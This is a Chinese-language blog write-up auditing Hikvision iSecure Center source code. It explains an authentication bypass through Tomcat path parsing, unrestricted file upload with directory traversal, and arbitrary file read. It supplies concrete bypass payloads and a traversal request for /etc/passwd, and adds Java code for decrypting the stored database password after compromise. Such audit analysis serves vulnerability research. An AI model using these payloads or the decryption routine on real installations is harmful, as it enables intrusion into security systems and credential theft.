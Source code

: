 title: 海康威视综合安防 iSecure Center 漏洞分析
author: bmth
tags:
  - 海康威视
categories:
  - 代码审计
top_img: https://img-blog.csdnimg.cn/5c8b13f99cf143b180babc3a58b4bd8b.png
cover: https://img-blog.csdnimg.cn/5c8b13f99cf143b180babc3a58b4bd8b.png
date: 2023-07-31 12:39:00
---
![](https://img-blog.csdnimg.cn/5c8b13f99cf143b180babc3a58b4bd8b.png)

前些日子这个洞刚出的时候几乎通杀，有幸拿到了源码，就来分析一下

## 代码审计
### 权限绕过
首先是一个权限绕过问题，看到配置文件 cas-client.properties
![](https://img-blog.csdnimg.cn/88cb335426fa417da976f27a35cfb8fb.png)

发现`cas.ignore.pattern`，很明显存放的就是绕过权限的路径，全局查找一下
看到`bic-sso-client-1.6.9.4.RELEASE.jar!/com/hikvision/sso/client/config/util/CasClientConfig.class`
![](https://img-blog.csdnimg.cn/514d2116aa0e4f33bac0ef6cbeafb058.png)

全局查找调用`CasClientConfig.getCasClientConfig`方法的类，看到`bic-sso-client-1.6.9.4.RELEASE.jar!/org/jasig/cas/client/util/AbstractConfigurationFilter.class`的 getPropertyFromInitParams 方法
![](https://img-blog.csdnimg.cn/f1b5b1be769f45af979149885a7d0016.png)

那么就找下什么时候 propertyName 的值为 ignorePattern 
在`bic-sso-client-1.6.9.4.RELEASE.jar!/org/jasig/cas/client/authentication/AuthenticationFilter.class`
看名字就知道是身份认证的 Filter 
![](https://img-blog.csdnimg.cn/b334fc06db87450894e94aa513be3059.png)

在 initInternal 初始化的时候获取到`cas.ignore.pattern`的值 ，然后存储到 ignoreUrlPatternMatcherStrategyClass 中

看到它的 doFilter 方法，如果`this.isRequestUrlExcluded(request)`为true，直接绕过鉴权
![](https://img-blog.csdnimg.cn/cbeef6b5f5e043e2bbc006fc7f7fbc01.png)

跟进 isRequestUrlExcluded 方法
![](https://img-blog.csdnimg.cn/9d1595c680e4407f93f96f6517de0db0.png)

发现使用的是 getRequestUrl 方法获取的url路径，然后 matches 方法进行匹配
而这个方法与 Tomcat 的解析刚好会存在安全问题：
[Tomcat URL解析差异性导致的安全问题](https://xz.aliyun.com/t/7544)
[tomcat容器url解析特性研究](https://xz.aliyun.com/t/10799)

>Tomcat中的URL解析是支持嵌入`./`、`../`、`;`等特殊字符的
>此外，getRequestURL() 和 getRequestURI() 这两个函数解析提取的URL内容是包含我们嵌入的特殊字符的，当使用不当时会存在安全问题如绕过认证

跟进发现是使用正则表达式进行匹配的
![](https://img-blog.csdnimg.cn/5e084a829a3047d291d7f93751836e45.png)

如果满足正则匹配，就会绕过权限认证，最终得到如下payload
```
;.js
;.svg
;.ttf
/center/api/fileUpload/..;/
/center/api/task/..;/
```
等等方法都是可以用的，随便列举一个
![](https://img-blog.csdnimg.cn/b28e4c98e7a04b2d860a542a2a93c15c.png)

### 任意文件上传
没有了权限限制，就有很多操作点了，先来看到爆出的任意文件上传漏洞
`center/WEB-INF/classes/com/hikvision/center/module/faq/controller/KnowledgeController.class`
![](https://img-blog.csdnimg.cn/4ac88db272ae438dae98724b8078134a.png)

调用 uploadFile 方法上传文件，并返回结果
`center/WEB-INF/classes/com/hikvision/center/module/faq/service/impl/KnowledgeServiceImpl.class`
![](https://img-blog.csdnimg.cn/c5ba679b369d471ab8a0230231688fce.png)

可以看到直接使用 transferTo 方法上传文件，没有任何限制，并且对文件名进行了拼接，导致可以跨目录传文件
![](https://img-blog.csdnimg.cn/bbd832f6f0d3476fab1e0bf3e44297c8.png)

我们将文件放在 clusterMgr 目录下，就可以成功访问了
![](https://img-blog.csdnimg.cn/0379c1732cc840239adeee443502fa25.png)


### 任意文件读取
看到`center/WEB-INF/classes/com/hikvision/center/module/personmanage/controller/OrganizationController.class`
![](https://img-blog.csdnimg.cn/515164e8d66f47bb9337fe57dabc7e2b.png)

这里获取GET传参fileName
![](https://img-blog.csdnimg.cn/ec30fd413397438fbef176bfab30b04b.png)

然后直接进行的拼接，导致可以跨越目录读文件
```
/center/api/task/..;/orgManage/v1/orgs/download?fileName=../../../../../../../etc/passwd
```
![](https://img-blog.csdnimg.cn/609c49ffb4e6440a9bf980d3faa8f733.png)


## 后渗透利用
一般拿到shell了，就需要更进一步的利用
### 数据库密码解密
看到`center/WEB-INF/classes/com/hikvision/center/config/jpa/GeeQueryConfig.class`
![](https://img-blog.csdnimg.cn/67d68fcb3d4742498ebd8a4f15124c0e.png)

发现是使用的postgresql数据库，并且看到数据库密码是先base64解密，然后使用`Authentication.transDataDecrypt`解密的
这里`opsmgr.database.password`在`config.properties`配置文件中
![](https://img-blog.csdnimg.cn/4059e8d8bdfb4070a2948029b97de3bf.png)

跟进`bic-iii-1.1.9.jar!/com/hikvision/hik/crypt/Authentication.class`
```java
public static byte[] transDataDecrypt(byte[] SData) throws CryptErrorException {
    return IIIAESUtils.transDataDecrypt(SData);
}
```
那么就看到`bic-iii-1.1.9.jar!/com/hikvision/hik/crypt/IIIAESUtils.class`
![](https://img-blog.csdnimg.cn/38c1292f38ed46cd950d69ab38bed688.png)

解密核心是使用的`System.load`加载配置文件 Identify.dll 或者 libIdentify.so ，然后使用内部的方法进行解密
那么解密就很简单了，加载 .jar 依赖，然后调用方法即可
```java
import com.hikvision.hik.crypt.Authentication;
import sun.misc.BASE64Decoder;

public class Main {
    public static String transDataDecrypt(String data) {
        try {
            BASE64Decoder decoder = new BASE64Decoder();
            return new String(Authentication.transDataDecrypt((decoder.decodeBuffer(data))), "UTF-8");
        } catch (Exception var2) {
            var2.printStackTrace();
            return null;
        }
    }

    public static void main(String[] args) {
        String password = transDataDecrypt("EQAQAHaQSvAuuQmMvRUpfoWt4scoTMSSkftYgn9qXVDvr28p6c0wP3LXDMFTZgJEWJS+Ug==");
        System.out.println(password);
    }
}
```
最后使用天蝎连接数据库，驱动：`org.postgresql.Driver`
![](https://img-blog.csdnimg.cn/d9e0e117b3ed451c965ab2b30502ddb0.png)

参考工具：[https://github.com/wafinfo/Hikvision](https://github.com/wafinfo/Hikvision)